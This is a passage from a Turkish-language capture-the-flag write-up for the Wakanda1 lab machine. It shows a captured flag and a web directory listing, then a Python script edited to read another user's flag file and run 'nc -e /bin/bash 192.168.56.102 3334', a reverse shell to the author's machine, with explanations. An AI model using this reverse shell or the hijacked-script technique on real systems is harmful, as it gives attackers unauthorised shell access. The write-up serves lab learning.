 ```text
mamadou@Wakanda1:/tmp$ cat flag2.txt
Flag 2 : d8ce56398c88e1b4d9e5f83e64c79098
```

İşte 2. flagimizide aldık.

## /var/www/html Dizini ve Bir Kaç Başarısız Deneme

Web sitesinin dizinini listeleyip bütün dosyaları inceledim. bg.jpg dosyasına bir kaç stegonography denemesi ve metadata ile bilgi bulma girişiminden sonra bu dizinden bir bilgi çıkaramadım.

```text
mamadou@Wakanda1:/var/www/html$ ls -al
total 4572
drwxr-xr-x 2 root root    4096 Aug  1 16:51 .
drwxr-xr-x 3 root root    4096 Aug  1 13:29 ..
-rw-r--r-- 1 root root       0 Aug  1 16:50 admin
-rw-r--r-- 1 root root       0 Aug  1 16:50 backup
-rw-r--r-- 1 root root 4510077 Aug  1 14:26 bg.jpg
-rw-r--r-- 1 root root  140936 Aug  1 14:07 bootstrap.css
-rw-r--r-- 1 root root    1464 Aug  1 14:29 cover.css
-rw-r--r-- 1 root root     141 Aug  1 16:45 fr.php
-rw-r--r-- 1 root root       0 Aug  1 16:50 hahaha
-rw-r--r-- 1 root root       0 Aug  1 16:51 hohoho
-rw-r--r-- 1 root root    1811 Aug  1 16:44 index.php
-rw-r--r-- 1 root root       0 Aug  1 16:50 secret
-rw-r--r-- 1 root root      40 Aug  1 16:51 secret.txt
-rw-r--r-- 1 root root       0 Aug  1 16:50 shell
-rw-r--r-- 1 root root       0 Aug  1 16:50 troll
```

## Devops Kullanıcısı ve Reverse Shell

Bu başarısız denemelerden sonra devops kullanıcısına giriş yapabileceğimi düşündüm. Bunun için bir önceki etaptaki "antivirüs.py" dosyasını tekrardan düzenlerim.

```python
open('/tmp/test','w').write('test')

a = open("/home/devops/flag2.txt", "r").read()
open("/tmp/devtxt.txt","w").write(str(a))

import os
text = "nc -e /bin/bash 192.168.56.102 3334"

os.system(text)
```

* `os` modülü işletim sisteminde kod çalıştırmak için gerekli fonksiyonları basındırıyor.
* `os.system()` fonksiyonu sisteme komut girmeyi sağlıyor.
* `nc -e /bin/bash 192.168.56.102 3334` komutu ise benim bilgisayarıma 3334 portundan bağlanıyor. Benim bilgisayarımın IP adresi 192.168.56.102. Ve ayrıca bana bash komutlarını çalıştırmamada izin veriyor. (reverse shell).
